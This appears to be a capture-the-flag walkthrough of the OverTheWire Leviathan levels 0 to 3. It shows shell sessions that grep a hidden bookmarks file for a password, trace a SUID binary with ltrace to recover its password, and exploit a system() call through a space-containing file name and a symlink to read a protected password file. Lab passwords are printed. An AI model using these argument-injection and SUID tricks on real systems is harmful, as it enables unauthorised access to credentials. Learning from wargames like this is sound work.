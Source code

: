 # 0

Remember the ssh command: `ssh [USERNAME]@leviathan.labs.overthewire.org -p 2223`

```
Username: leviathan0
Password: leviathan0
```

Looking at the home directory, there is a hidden folder `.backups`

Inside it contains `bookmarks.html`, possibly containing bookmarks for a web browser.

You can't just cat it though, since it's too  large. Instead I grepped it with `leviathan` to see if i can find a password. and i did.

```
leviathan0@gibson:~$ ls -la
total 24
drwxr-xr-x  3 root       root       4096 Jul 17 15:57 .
drwxr-xr-x 83 root       root       4096 Jul 17 15:59 ..
drwxr-x---  2 leviathan1 leviathan0 4096 Jul 17 15:57 .backup
-rw-r--r--  1 root       root        220 Mar 31 08:41 .bash_logout
-rw-r--r--  1 root       root       3771 Mar 31 08:41 .bashrc
-rw-r--r--  1 root       root        807 Mar 31 08:41 .profile
leviathan0@gibson:~$ cd .backup/
leviathan0@gibson:~/.backup$ ls
bookmarks.html
leviathan0@gibson:~/.backup$ cat bookmarks.html | grep leviathan
<DT><A HREF="http://leviathan.labs.overthewire.org/passwordus.html | This will be fixed later, the password for leviathan1 is 3QJ3TgzHDq" ADD_DATE="1155384634" LAST_CHARSET="ISO-8859-1" ID="rdf:#$2wIU71">password to leviathan1</A>
```

# 1

```
Username: leviathan1
Password: 3QJ3TgzHDq
```

Doing `ls -la` shows that there is a binary file called `check`. However, this file has a set SUID, which means that whenever we run it, it will always run as it's owner, that being `leviathan2`.

Running it asks for a password, which we don't know. 

However I can tell that this seems to be a badly written C program, because when I put a single letter as the password, it freezes. 

I did find out that there is a command called `ltrace` in this system. ltrace basically prints out a function whenever a system library is called. This is useful because if this program uses a function like `strcmp` then we can get the password very easily. 

Using this we can find out the password is `sex` (Lol). If we run the program normally with the password we get access to the shell, presumably running as `leviathan2`. Now we can just do `cat /etc/leviathan_pass/leviathan2` and get the password for the next level .

Note that this is an unstable shell, copypasting and tabbing does not work here!

```
leviathan1@gibson:~$ ls -la
total 36
drwxr-xr-x  2 root       root        4096 Jul 17 15:57 .
drwxr-xr-x 83 root       root        4096 Jul 17 15:59 ..
-rw-r--r--  1 root       root         220 Mar 31 08:41 .bash_logout
-rw-r--r--  1 root       root        3771 Mar 31 08:41 .bashrc
-r-sr-x---  1 leviathan2 leviathan1 15080 Jul 17 15:57 check
-rw-r--r--  1 root       root         807 Mar 31 08:41 .profile
leviathan1@gibson:~$ ltrace ./check
__libc_start_main(0x80490ed, 1, 0xffffd494, 0 <unfinished ...>
printf("password: ")                                                   = 10
getchar(0, 0, 0x786573, 0x646f67password: test
)                                      = 116
getchar(0, 116, 0x786573, 0x646f67)                                    = 101
getchar(0, 0x6574, 0x786573, 0x646f67)                                 = 115
strcmp("tes", "sex")                                                   = 1
puts("Wrong password, Good Bye ..."Wrong password, Good Bye ...
)                                   = 29
+++ exited (status 0) +++
leviathan1@gibson:~$ ./check 
password: sex
$ cat /etc/leviathan_pass/leviathan2
NsN1HwFoyN
```

# 2

```
Username: leviathan2
Password: NsN1HwFoyN
```

Just like the previous level, there is a program with a SUID to the next level's user.

`printfile` seems to print a file, but running `ltrace ./printfile` with a file that doesn't exist calls the function `access([FILENAME], 4)`. This function checks is we specifically have access to a file, not leviathan3. So we can't just do `./printfile /etc/leviathan_pass/leviathan3`

When I run the program again with a file we do have access to, it shows that the following functions run:

```
leviathan2@gibson:~$ touch /tmp/test1234
leviathan2@gibson:~$ ltrace ./printfile /tmp/test1234
...
access("/tmp/test1234", 4)                                             = 0
snprintf("/bin/cat /tmp/test1234", 511, "/bin/cat %s", "/tmp/test1234") = 22
...
system("/bin/cat /tmp/test1234" <no return ...>
```

This shows that the program uses system calls, in this case it calls `cat`. 

The problem with system calls in a program is that they do not preserve the true file names that we input, such as filenames that include spaces. For example, if i make a file called `a b` and run `ltrace ./printfile "a b"` , the program will call `access("a b")` , which will return true, but then it will run `system(/bin/cat a b)`. This will make cat attempt to print contents of `a` and `b`, both files that do not exist.

I used this approach to get the password for the next level. To make things easier, I made a temp folder in `/tmp` and gave it full access perms to everyone else, then made a symlink to `/etc/leviathan_pass/leviathan3` as `pwfile`. I then made another file called `pwfile no`, then run the program using that filename.

```
leviathan2@gibson:~$ ls -la
total 36
drwxr-xr-x  2 root       root        4096 Jul 17 15:57 .
drwxr-xr-x 83 root       root        4096 Jul 17 15:59 ..
-rw-r--r--  1 root       root         220 Mar 31 08:41 .bash_logout
-rw-r--r--  1 root       root        3771 Mar 31 08:41 .bashrc
-r-sr-x---  1 leviathan3 leviathan2 15068 Jul 17 15:57 printfile
-rw-r--r--  1 root       root         807 Mar 31 08:41 .profile
leviathan2@gibson:~$ mkdir /tmp/test532
leviathan2@gibson:~$ chmod 777 /tmp/test532
leviathan2@gibson:~$ ln -s /etc/leviathan_pass/leviathan3 /tmp/test532/pwfile 
leviathan2@gibson:~$ touch /tmp/test532/"pwfile no"
leviathan2@gibson:~$ ./printfile /tmp/test532/"pwfile no"
f0n8h2iWLP
/bin/cat: no: No such file or directory
```

# 3

```
Username: leviathan3
Password: f0n8h2iWLP
```
